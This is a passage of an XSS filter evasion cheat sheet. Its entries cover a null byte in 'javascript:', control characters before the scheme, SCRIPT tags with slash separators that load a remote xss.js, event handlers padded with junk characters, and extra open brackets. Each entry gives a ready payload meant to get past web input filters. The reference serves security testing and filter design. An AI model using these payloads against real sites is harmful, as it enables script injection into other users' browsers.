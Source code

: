 ```
    perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out 
```
 #### Example 3: Spaces and Meta Chars Before the JavaScript in Images for XSS
 This is useful if a filter\'s pattern match doesn\'t take into account
spaces in the word `javascript:`, which is correct since that won\'t render, but makes the false assumption that you can\'t have a space
between the quote and the `javascript:` keyword. The actual reality is you can have any char from 1-32 in decimal:
 
```
    <a href=" &#14;  javascript:alert('XSS');">Click Me</a> 
```
 #### Example 4: Non-alpha-non-digit XSS
 The Firefox HTML parser assumes a non-alpha-non-digit is not valid after
an HTML keyword and therefore considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters
assume that the tag they are looking for is broken up by whitespace. For example `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`:
 
```
    <SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT> 
```
 Based on the same idea as above, however, expanded on it, using
Rsnake\'s fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle
brackets, etc) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also
applies to the grave accent char as seen here: 
```
     <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```
 
Yair Amit noted that there is a slightly different behavior between the Trident (IE) and Gecko (Firefox) rendering engines that allows just a
slash between the tag and the parameter with no spaces. This could be useful in a attack if the system does not allow spaces:
 
```
    <SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT> 
```
 ### Extraneous Open Brackets
 This XSS vector could defeat certain detection engines that work by
checking matching pairs of open and close angle brackets then comparing the tag inside, instead of a more efficient algorithm like
[Boyer-Moore](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_string-search_algorithm) that looks for entire string matches of the open angle bracket and
associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to suppress a JavaScript
error: 
```
     <<SCRIPT>alert("XSS");//\<</SCRIPT>
```
 